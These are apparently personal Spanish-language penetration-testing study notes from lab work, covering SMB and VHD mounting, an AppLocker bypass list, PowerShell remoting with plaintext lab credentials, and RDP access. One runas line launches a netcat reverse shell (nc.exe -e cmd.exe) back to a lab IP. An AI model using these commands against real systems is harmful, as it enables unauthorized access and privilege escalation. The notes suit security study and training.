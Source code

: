 ## MOUNT LARGE FILES

Si tenemos acceso a un recurso por SMB pero pesa muchísimo, entonces mejor que descargarlo puede ser montarlo en nuestra máquina. -> Optimum


MONTAR FICHEROS VHD -> OPTIMUM


Muy bueno para escalar privilegios

## RUTAS PARA EJECUTABLES AppLocker ByPass
* https://github.com/api0cradle/UltimateAppLockerByPassList


## EJECUCIÓN EN UN EQUIPO POWEREHLL

```
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
whoami
```


rdP xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:offsec /v:192.168.169.250



Ejecutar con runas

```
C:\ProgramData\PY_Software\Argus Surveillance DVR>runas /env /profile /user:Administrator “C:\ProgramData\PY_Software\Argus Surveillance DVR\nc.exe -e cmd.exe 192.168.49.249 21”
```
## Permisos en WINDOWS

![[Pasted image 20230522162113.png]]

Mirar permisos en web directories

En xamps: C:\xampp\htdocs\assets